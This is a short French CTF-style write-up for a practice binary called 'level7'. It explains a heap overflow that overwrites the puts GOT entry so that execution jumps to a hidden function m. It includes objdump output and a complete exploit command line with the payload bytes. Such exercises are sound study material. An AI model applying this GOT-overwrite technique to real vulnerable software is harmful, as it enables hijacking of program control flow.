

Cette exécutable est composé d'une fonction main qui va allouer de 8 octets pour pouvoir stocker dans les 4 premiers octets un chiffre et dans les 4 octets restant un pointeur pointant à un autre malloc de taille 8 octets.

Avec le premier strcpy on va pouvoir overflow et modifier la valeur stockée par `ptr_to_buffer2`, pour qu'elle pointe autre chose que `buffer2` mais par exemple l'adresse de puts pour la remplacer via le deuxième strcpy par l'adresse de `m`. Et lorsque puts sera appele à la fin du main. Il n'appellera pas puts de la libc mais la fonction `m`.



Donc en premier lieu, on recupère l'adresse de puts (0x08049928)
```
$ objdump -R ./level7
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
Puis l'adresse de `m` (0x080484f4)
```
$ objdump -t ./level7
SYMBOL TABLE:
08048440 g     F .text	00000000              _start
080486d8 g     O .rodata	00000004              _fp_hw
08049960 g     O .bss	00000050              c
080484f4 g     F .text	0000002d              m
08049940 g       *ABS*	00000000              __bss_start
```
On va construire nos arguments:
 - Le premier qui va overflow et pointer vers l'adresse de puts.
 - Et le deuxième qui va modifier la valeur dans puts pour remplacer par `m`

```
$ ./level7 `python -c 'print "a"*20+"\x28\x99\x04\x08"'`  `python -c 'print "\xf4\x84\x04\x08"'`
```
